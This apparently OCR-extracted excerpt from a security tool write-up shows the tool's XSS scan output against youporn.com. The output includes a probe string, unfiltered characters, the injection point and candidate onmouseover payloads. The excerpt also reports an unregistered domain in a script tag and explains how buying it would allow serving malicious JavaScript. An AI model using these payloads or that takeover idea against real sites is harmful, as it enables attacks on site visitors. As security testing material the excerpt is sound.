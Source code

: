 \subparagraph{}

URL: http://www.youporn.com/

responseURL: http://www.youporn.com/search/?query=1zqjam%

POST url: http://www.youporn.com/search/

Unfiltered: '"(){}:/;

Payload: 1zqjam'"(){}<x>:/1zqjam;9

Type: form

Injection point: query

Possible payloads: x"/onmouseover=prompt(9)/", x" onmouseover=prompt(9) "

Line: <meta name="description" content="watch 1zqjam'"(){}:/1zqjam;9

\paragraph{}
Here, the important parts are the Repsonse URL: http://www.youporn.com/search/?query=  and the
Payload: 1zqjam'"(){}<x>:/1zqjam;9.  The string '"(){}<x>:/ is the most important part of the injected payload and as you can see by the response URL, all the characters that “pass thru” authentication are all encoded as %

Another example with a different output against a sub-domain of YouPorn is:
\paragraph{}
URL: https://blog.youporn.com/stop-sopa-stop-internet-censorship/
Found non-registered domain in script tag! Non-registered URL: http://www.gsy009.com/Scripts.js
\paragraph{}
This is probably the most devastating finding this tool can give you.  It recursively checks every javascript file link inside the DOM of the webpage, so in this case it automatically nmaps the domain www.gsy009.com/Scripts.js.  This domain is no longer registered, so this javascript file that's hosted on this blog portion of YouPorn links to nowhere.  That is, until one could have the desire to buy that domain (www.gsy009.com) and host a malicious javascript file (named Scripts.js) from there, and victim's browser will automatically some potentially devastating code.

